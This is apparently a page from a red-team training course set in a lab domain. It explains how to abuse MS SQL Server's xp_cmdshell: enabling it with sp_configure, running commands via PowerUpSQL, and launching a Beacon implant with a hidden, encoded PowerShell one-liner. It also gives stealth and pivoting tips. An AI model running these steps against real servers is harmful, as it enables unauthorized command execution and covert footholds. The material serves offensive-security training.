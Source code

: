 The **xp_cmdshell** procedure can be used to execute shell commands on the SQL server.  `Invoke-SQLOSCmd` from PowerUpSQL provides a simple means of using it.

```
beacon> powershell Invoke-SQLOSCmd -Instance "srv-1.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

dev\svc_mssql
```
  
To execute manually (in Heidi/mssqlclient.py), try:

```
EXEC xp_cmdshell 'whoami';
```

However, you will see this error:


![](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/xp_cmdshell-disabled.png)

  

To enumerate the current state of xp_cmdshell, use:

```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

![](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/sysconfigurations.png)

  

A value of **0** shows that xp_cmdshell is disabled. To enable it:

```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

  

Query `sys.configurations` again and the `xp_cmdshell` value should be **1**; and now `EXEC xp_cmdshell 'whoami'` will work.

> **OPSEC Alert**  
If you're going to make this type of configuration change to a target, you must ensure you set it back to its original value afterwards.  
The reason this works with `Invoke-SQLOSCmd` is because it will automatically attempt to enable xp_cmdshell if it's not already, execute the given command, and then re-disable it. This is a good example of why you should study your tools before you use them, so you know what is happening under the hood.

With command shell execution, spawning a Beacon can be as easy as a PowerShell one-liner.

```
EXEC xp_cmdshell 'powershell -w hidden -enc <blah>';
```

![](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/srv1-beacon.png)

>  There is a SQL command length limit that will prevent you from sending large payloads directly in the query, and the SQL servers cannot reach your Kali IP directly. Reverse Port Forwards and Pivot Listeners are your friends.
